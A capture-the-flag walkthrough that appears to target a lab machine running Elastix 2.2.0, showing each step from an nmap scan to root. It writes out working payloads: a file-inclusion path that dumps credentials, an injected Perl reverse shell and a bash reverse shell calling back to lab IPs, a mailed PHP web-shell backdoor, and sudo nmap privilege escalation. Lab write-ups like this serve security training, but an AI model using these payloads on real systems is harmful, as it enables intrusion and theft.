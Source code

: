# Solution

As usual we start with a nmap scan to enumerate the services:
```
nmap -sC -sV -oN nmap-initial 10.10.10.7
```

A lot of services are exposed. I tried for quite a lot of time, then i looked on exploit db for "Elastix" and I found a file inclusion vulnerability. Using that vulnerability I could dump a file with users, passwords and configuration.  
Path for the config file: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

We managed to log in to the elastix page as admin with one of the passwords (jEhdIekWmdjE) that were present in the file.

We have to find a way in the underlying host.  In the tool toolbar there is the Asteriski CLI, we could use it to execute commands in the Linux machine. We tried but it doesn't work.


In the PBX tab we see that the extension 233 is active. Looking around in the web interface we also see that the Elastix version is 2.2.0.  
We look for an exploit in Exploit db and we found one related to our version. We take the exploit vector from the script, set the appropriate variables and the correct extension (233):
```
https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.14.13%3a4444%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A
```
We set up a netcat handler on port 4444,  we visit the url and we have a shell with user privileges. The user is "asterix" which is the owner of the elastix process.  

Visiting /home/fanis we have the first flag.  
Now we want to get root access to get the remaining flag.  


First we import a stable bash shell using python
```
python -c 'import pty;pty.spawn("/bin/bash")'
```

We now run "sudo -l" to see which commands asterix can execute as sudo. Nmap is one of those.  
In GTFO bins we can see how we can priv escalate when nmap can be run as sudo:
```
sudo nmap --interactive  
!sh
```


P.S.  
Different ways could have been used to gain the first shell to the system. I also reproduced the exploit showed by ippsec. Namely:  
1. Use telnet to enumerate (trial and error) the users which have an email service active.  
2. Send an email to one of the user found (i.e. asterisk) containing a backdoor:  
```
<?php system($_REQUEST("exploit")); ?>  
```
3. We set up a local listener
```
nc -lnvp 4444
```
3. Use the file inclusion vulnerability we used before to execute the backdoor. The file to visit is now /var/mail/asterisk where the previously sent email is stored.
4. The request variable "exploit" is set to the command we want to execute.
```
bash -i >& /dev/tcp/10.10.14.25/4444 0>&1
```


